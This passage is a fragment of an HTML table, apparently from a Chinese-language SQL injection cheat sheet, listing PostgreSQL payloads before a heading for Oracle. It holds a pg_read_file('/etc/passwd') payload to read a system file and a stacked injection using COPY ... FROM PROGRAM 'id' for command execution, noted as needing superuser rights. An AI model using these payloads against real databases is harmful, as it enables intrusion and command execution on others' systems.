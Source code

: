 pg_read_file(&#39;/etc/passwd&#39;),1</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="150" width="150" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">pg_read_file()</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="110" width="110" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">命令执行</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="291" width="291" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39;; COPY cmd_exec FROM PROGRAM &#39;id&#39; --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="150" width="150" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p style="mso-pagination:widow-orphan;text-align:left;"><span style=""><font face="方正小标宋_GBK"><span leaf="">需超级用户权限</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p></o:p></span></p></td></tr></tbody></table>  
  
3.Oracle  